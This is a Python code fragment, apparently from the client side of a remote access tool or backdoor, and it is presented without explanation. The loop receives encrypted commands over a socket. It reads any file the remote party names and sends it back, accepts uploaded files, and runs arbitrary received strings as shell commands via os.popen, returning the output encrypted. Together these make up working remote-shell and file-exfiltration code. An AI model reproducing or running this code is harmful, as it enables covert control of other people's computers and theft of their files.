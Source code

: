 ```python
        try:
            message = None
            msg = client.recv(1024)
            msg = dec_mes(msg, k)
            message = msg.decode()

            if msg == b'':
                time.sleep(10)
                s = 0

                while msg == b'':
                    s += 1
                    msg = client.recv(1024)

                    if s == 300:
                        raise Exception("Reconnect!")

            if message == "check":
                enc_answ = enc_mes("check-ok", k)
                client.send(enc_answ)

            elif message == "send_file":
                receive_file_thread = threading.Thread(target=receive_file)
                receive_file_thread.start()

            elif message == "get_file":
                okenc = enc_mes("ok", k)
                client.send(okenc)

                path_to_file = client.recv(1024)
                path_to_file = dec_mes(path_to_file, k).decode()

                try:
                    with open(path_to_file, "rb") as f:
                        bytes_read = f.read()

                    bytes_enc = enc_mes(bytes_read, k)
                    filesize = enc_mes(str(len(bytes_enc)), k)

                    client.send(filesize)
                    vsb = dec_mes(client.recv(1024), k)

                    if vsb.decode() == "ok":
                        client.sendall(bytes_enc)
                except Exception:
                    client.send("Error uploading file".encode("utf-8"))

            elif message not in [None, "", "\n"]:
                try:
                    answer = os.popen(message).read()

                    if not answer:
                        client.send("Bad command!".encode("ascii"))
                    else:
                        enc_answer = enc_mes(answer, k)
                        size = str(len(enc_answer))

                        client.send(size.encode("utf-8"))

                        if dec_mes(client.recv(1024), k).decode() == "ok":
                            client.sendall(enc_answer)
                except Exception:
                    client.send("Bad command!".encode("ascii"))
```